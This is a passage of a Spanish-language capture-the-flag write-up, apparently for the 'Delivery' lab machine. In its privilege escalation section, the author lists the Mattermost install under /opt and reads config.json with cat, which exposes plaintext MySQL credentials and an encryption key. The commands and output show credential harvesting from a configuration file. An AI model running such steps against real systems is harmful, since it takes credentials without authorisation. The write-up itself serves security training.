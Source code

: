## Privilege Escalation

### Database Enumeration - MySQL

Verificamos que en el directorio `/opt` disponemos de la carpeta de la instalación de`Mattermost`.

Enumerando el directorio, verificamos que disponemos de un archivo de configuración llamado `config.json.`

```bash
maildeliverer@Delivery:~$ ls -l /opt/
total 4
drwxrwxr-x 12 mattermost mattermost 4096 Jul 14  2021 mattermost
maildeliverer@Delivery:~$ ls -l /opt/mattermost/
total 280
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 bin
drwxrwxr-x 7 mattermost mattermost   4096 Dec 26  2020 client
drwxrwxr-x 2 mattermost mattermost   4096 Dec 26  2020 config
drwxrwxr-x 3 mattermost mattermost   4096 Jan 17 08:03 data
-rw-rw-r-- 1 mattermost mattermost   2052 Dec 18  2020 ENTERPRISE-EDITION-LICENSE.txt
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 fonts
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 i18n
drwxrwxr-x 2 mattermost mattermost   4096 Dec 26  2020 logs
-rw-rw-r-- 1 mattermost mattermost    898 Dec 18  2020 manifest.txt
-rw-rw-r-- 1 mattermost mattermost 229264 Dec 18  2020 NOTICE.txt
drwxr--r-- 5 mattermost mattermost   4096 Jan 17 08:08 plugins
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 prepackaged_plugins
-rw-rw-r-- 1 mattermost mattermost   6262 Dec 18  2020 README.md
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 templates
maildeliverer@Delivery:~$ ls -l /opt/mattermost/config/
total 28
-rw-rw-r-- 1 mattermost mattermost   922 Dec 18  2020 cloud_defaults.json
-rw-rw-r-- 1 mattermost mattermost 18774 Jan 17 08:03 config.json
-rw-rw-r-- 1 mattermost mattermost   243 Dec 18  2020 README.md
```

Al revisar la configuración del archivo, verificamos que encontramos las credenciales de acceso al MySQL. Las credenciales aparecen en texto plano: `mmuser:Crack_The_MM_Admin_PW`

```bash
maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json 
{
..[snip]...
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
...[snip]...
```
